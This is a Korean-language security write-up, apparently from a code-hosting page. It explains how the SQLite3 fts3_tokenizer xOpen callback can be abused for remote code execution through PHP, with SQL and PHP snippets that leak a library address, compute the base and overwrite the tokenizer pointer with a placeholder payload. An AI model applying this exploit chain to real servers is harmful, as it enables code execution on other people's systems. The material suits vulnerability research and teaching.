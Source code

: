 ## xOpen 취약점

```sql
insert into exploit values(x"9090909090909090");
```

- 현 쿼리의 “exploit” 테이블은 앞에서 create 쿼리문으로 생성이 된후 insert 쿼리문을 이용해서 데이터를 삽입할 경우 `xOpen` Callback function pointer가 수행됩니다.
- `xOpen` 은 값 으로 0x9090909090909090 16진수를 `pInput1` 매개 변수로 사용하여 CallBack 과 같이 트리거 됩니다.

```c
// https://github.com/mackyle/sqlite/blob/0ab6f6f4c9142a55959ed2097734942c1781b538/ext/fts3/fts3_expr.c
sqlite3_tokenizer_module const *pModule = pTokenizer->pModule;
sqlite3_tokenizer_cursor *pCsr = 0;
int rc;
rc = pModule->xOpen(pTokenizer, z, n, &pCsr);
```

- 이를 이용해서 예측이 가능한 메모리 위치에 대상 주소를 만들고 메모리 주소에 있어 `fts3_tokenizer` 의 Callback 을 트리거하여 다음 프로그램 카운터를 조작해 원하는 파라미터 값을 컨트롤해 공격 연계가 가능합니다.

# fts3 PHP RCE Exploitation

## Exploit 공격 흐름도

```sql
$sqlite3_lib_leaked_tokenizer = sqlQuery("select hex(fts3_tokenizer('simple')) addr")['addr'];
$libsqlite3_addr = flip($sqlite3_lib_leaked_tokenizer);
$libsqlite3_base = $libsqlite3_addr - $leaked_simple_tokenizer_offset;

$payload = 0x9090909090909090; // payload 
sqlQuery("select fts3_tokenizer('simple', ?);", $payload);
sqlQuery("create table a using fts3"); // crash
```

- 다음과 같은 형태로 취약점 Exploit 흐름이 진행되어 집니다.
- x86 환경에서의 취약점은 `xCreate` 의 Callback 트리거 만으로 Exploit 진행이 어렵다고 판단하여 `xOpen` 의 인자 트리거를 통해 진행하였습니다.

## x86bit 환경 PHP with SQLite3 fts3 tokenizer RCE 취약점

### fts3_tokenizer info leak

- leak 된 simple tokenizer의 주소 값을 리틀 엔디안으로 변경 작업을 진행시 4바이트 기준으로 fllip을 진행합니다.

```php
function flip($val)
{

  $len = strlen($val);
  if (8 - $len) {
    $val = str_repeat('0', 8 - $len).$val;
  }

  $result = '';
  for ($i = 8; $i > 2; $i -= 2) {
    $result.= substr($val, $i - 2, 2);
  }
  $result.= substr($val, 0, $i);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
```